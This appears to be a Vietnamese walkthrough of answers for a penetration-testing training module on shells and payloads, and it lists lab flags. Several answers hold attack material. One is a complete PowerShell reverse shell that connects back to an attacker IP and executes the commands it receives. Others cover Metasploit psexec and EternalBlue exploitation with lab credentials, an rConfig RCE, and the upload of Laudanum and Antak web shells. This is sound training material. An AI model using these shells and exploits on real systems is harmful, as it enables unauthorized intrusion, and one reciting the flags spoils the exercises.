# Lời giải — Shells & Payloads

### Q1: Which two shell languages did we experiment with in this section? (Format: shellname&shellname)

> **Đáp án:** `bash&powershell`

---

### Q2: In Pwnbox issue the $PSversiontable variable using PowerShell. Submit the edition of PowerShell that is running as the answer.

Chạy lệnh: `$PSversiontable`



> **Đáp án:** `Core`

---

### Q3: Des is able to issue the command nc -lvnp 443 on a Linux target. What port will she need to connect to from her attack box to successfully establish a shell session?

Nhìn trên câu hỏi ta đã thấy cổng kết nối là 443

> **Đáp án:** `443`

---

### Q4: SSH to the target, create a bind shell, then use netcat to connect to the target using the bind shell you set up. When you have completed the exercise, submit the contents of the flag.txt file located at /customscripts.

Đầu tiên dựa theo `IP` `username` `password` đã được cung cấp, ta tiến hành SSH  
`ssh <username>@<IP>`

Mở 1 terminal khác, terminal này sẽ để netcat vào máy mục tiêu thông qua cổng 4444  
`nc -nv <IP> 444`

Sau khi bắt được tín hiệu từ cổng 4444, ta đã truy cập thành công vào máy chủ

Lấy đáp án

> **Đáp án:** `B1nD_Shells_r_cool`

---

### Q5: When establishing a reverse shell session with a target, will the target act as a client or server?

`Máy tấn công (máy mình)` là máy lắng nghe là `máy nhận thông tin` tương đương `server`, còn máy target là máy truyền thông tin nên là máy `client`

> **Đáp án:** `client`

---

### Q6: Connect to the target via RDP and establish a reverse shell session with your attack box then submit the hostname of the target box.

Chạy lệnh `xfreerdp xfreerdp /v:<TARGET_IP> /u:<USERNAME> /p:<PASSWORD> /dynamic-resolution` để kết nối RDP vào máy windows(target) 

Chạy lệnh sau vào `PowerShell` của máy target (mở PowerShell bằng quyền admin)

<table>
  <thead>
    <tr>
      <th>Lệnh PowerShell</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>
<pre><code class="language-powershell">$client = New-Object System.Net.Sockets.TCPClient('&lt;IP&gt;',&lt;cổng kết nối&gt;)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535 | % {0}
while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
  if (![string]::IsNullOrWhiteSpace($data)) {
    try {
      $sendback = (iex $data 2>&1 | Out-String)
    } catch {
      $sendback = $_.Exception.Message
    }
  } else {
    $sendback = "Empty command received.`n"
  }
  $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
  $stream.Write($sendbyte, 0, $sendbyte.Length)
  $stream.Flush()
}
$client.Close()</code></pre>
      </td>
    </tr>
  </tbody>
</table>

Như ta đã thấy, cổng netcat đã bắt được tín hiệu từ máy target thông qua port: 443  
Chạy lệnh `hostname` rồi lấy đáp án

> **Đáp án:** `Shells-win10`

---

### Q7: What command language interpreter is used to establish a system shell session with the target?

Trên hệ điều hành `Windows` thì `PowerShell` chính là trình thông dịch chuẩn vừa chạy được lệnh hệ thống, vừa chạy được script phức tạp.

> **Đáp án:** `powershell`

---

### Q8: Exploit the target using what you've learned in this section, then submit the name of the file located in htb-student's Documents folder. (Format: filename.extension)

Mở phần mềm metasploit:  
`msfconsole`



Do chạy trên hệ điều hành `Windows` và chạy dịch vụ `SMB`, ta sẽ dùng module `/exploit/windows/smb/psexec`  
Chạy lệnh `use exploit/windows/smb/psexec`



Mở options: `options`  
rồi chạy các lệnh:  
`set RHOSTS 10.129.201.160`  
`set SMBUser htb-student`  
`set SMBPass HTB_@cademy_stdnt!`  
`set LHOST 10.10.16.27`  
Cuối cùng: `run`



Cửa sổ `meterpreter` hiện ra tức là chúng ta đã kết nối thành công, chạy lệnh `shell` để vào hệ điều hành



Lệnh `dir C:\Users\htb-student\Documents` lấy đáp án

> **Đáp án:** `staffsalaries.txt`

---

### Q9: What file type is a text-based DOS script used to perform tasks from the cli? (answer with the file extension, e.g. '.something')

Đọc qua tài liệu của module ta có thông tin: `Batch file là file DOS được dùng để thực thi nhiều tác vụ thông qua dòng lệnh command control và đuôi của nó là .bat`

> **Đáp án:** `.bat`

---

### Q10: What Windows exploit was dropped as a part of the Shadow Brokers leak? (Format: ms bulletin number, e.g. MSxx-xxx)

> **Đáp án:** `MS17-010`

---

### Q11: Gain a shell on the vulnerable target, then submit the contents of the flag.txt file that can be found in C:\

ta thức hiện nmap quét các cổng dịch vụ của máy nạn nhân  
`nmap -sV -sC <IP>`



Ta thấy máy nạn nhân là thuộc hệ điều hành `Windows` và mở cổng `SMB`, ta sẽ sử dụng công cụ metasploit  
Mở metasploit: `msfconsole`  
ta tìm lỗ hổng để dùng cho metasploit: `search eternal`



ta chỉnh địa chỉ `IP đích` và `IP nhận`



lệnh `run` để bắt đầu quét bằng metasploit



lệnh `shell` để vào cmd của hệ điều hành



`type C:\flag.txt` lấy đáp án



> **Đáp án:** `EB-Still-W0rk$`

---

### Q12: What language is the payload written in that gets uploaded when executing rconfig_vendors_auth_file_upload_rce?

> **Đáp án:** `php`

---

### Q13: Exploit the target and find the hostname of the router in the devicedetails directory at the root of the file system.

Thực hiện nmap quét nạn nhân: 



kết hợp với kết quả nmap ở trên và truy cập địa chỉ IP nạn nhân, ta thấy đây là 1 ứng dụng rConfig đã cũ.



Truy cập metasploit và thử search các lỗ hổng đã có của `rconfig`  
Ta sẽ dùng Module thứ 12 !!!



Tiến hành cài các options cơ bản:




Sau khi quét xong, màn hình ra tab: `meterpreter` tức đã thành công, ta chạy lệnh `shell` để vào cmd của máy chủ



Khám phá bên trong: 




Ta thấy folder `/devicedetails` là thư mục có thể chứa đáp án cho câu hỏi này.



Xem thử nội dung bên trong của file `hostnameinfo.txt` ta thấy nó có bảo hostname của router là chữ cái đứng trước `.yml` mà trong folder này cũng có 1 file tên là `edgerouter-isp.yml`  
Vậy ta đã tìm ra đáp án

> **Đáp án:** `edgerouter-isp`

---

### Q14: Establish a web shell session with the target using the concepts covered in this section. Submit the full path of the directory you land in. (Format: c:\path\you\land\in)

Thực hiện nmap quét nạn nhân:



Như thông tin ở nmap ta thấy, địa chỉ IP này là của 1 web và ở module này cũng gợi ý chúng ta sẽ sử dùng file `shell.aspx` trong bộ công cụ `laudanum`  
Do máy mình đã tải sẵn bộ công cụ này nên mình sẽ sao chép ra 1 file mới để tiến hành upload file đó lên máy nạn nhân rồi thực thi file để chiếm quyền điều khiển  
lệnh `cp /usr/share/laudanum/aspx/shell.aspx /home/demo.aspx`  
Sau khi đã tạo ra 1 bản copy của file, mình sẽ cần cấu hình địa chỉ IP của máy nạn nhân vào trong nội dung của file



Ở dòng `allowedIps` mình sẽ dán IP của máy nạn nhân vào



Mình mở web ra rồi upload file `demo.aspx` vừa tạo, sau khi upload xong, mình sẽ mở file đó ở trên web vừa upload.  



Màn hình chờ cho ta thấy, giờ ta đã có thể thực thi câu lệnh cmd ngay trên web



Chạy lệnh `dir` để lấy đáp án

> **Đáp án:** `c:\windows\system32\inetsrv`

---

### Q15: Where is the Laudanum aspx web shell located on Pwnbox? Submit the full path. (Format: /path/to/laudanum/aspx)

Mặc định `aspx web shell` sẽ được cấu hình trong `/usr/share/laudanum/aspx/shell.aspx` khi cài đặt



> **Đáp án:** `/usr/share/laudanum/aspx/shell.aspx`

---

### Q16: Where is the Antak webshell located on Pwnbox? Submit the full path. (Format:/path/to/antakwebshell)

Mặc định công cụ `Antak webshell` khi cài đặt sẽ được để ở đường dẫn: `/usr/share/nishang/Antak-WebShell/antak.aspx`



> **Đáp án:** `/usr/share/nishang/Antak-WebShell/antak.aspx`

---

### Q17: Establish a web shell with the target using the concepts covered in this section. Submit the name of the user on the target that the commands are being issued as. In order to get the correct answer you must navigate to the web shell you upload using the vHost name. (Format: ****\****, 1 space)

Vẫn như các questions trước, lần này ta sẽ sử dụng công cụ `Antak-Webshell` để upload lên nạn nhân, ta tiến hành tạo 1 bản copy của mã độc: `cp /usr/share/nishang/Antak-WebShell/antak.aspx ./Upload.aspx`



`sudo nano Upload.aspx` để mình xem nội dung cũng như chỉnh nội dung trong mã độc này



Như ta có thể thấy, file này yêu cầu phải có `username` và `password` thì mới thực thi được trên nạn nhân, tùy vào mọi người có thể tùy chỉnh `username` và `password` như mọi người muốn  
Ở đây mình sẽ để mặc định:  
`username: Disclaimer` 
`password: ForLegitUseOnly`

Tiến hành upload file chứa mã độc



Khi truy cập vào file chứa mã độc ta vừa upload trên web, nó yêu cầu nhập `username` và `password`, ta nhập như `username` và `password` ta vừa chỉnh ở trên (Ở đây mình để mặc định)



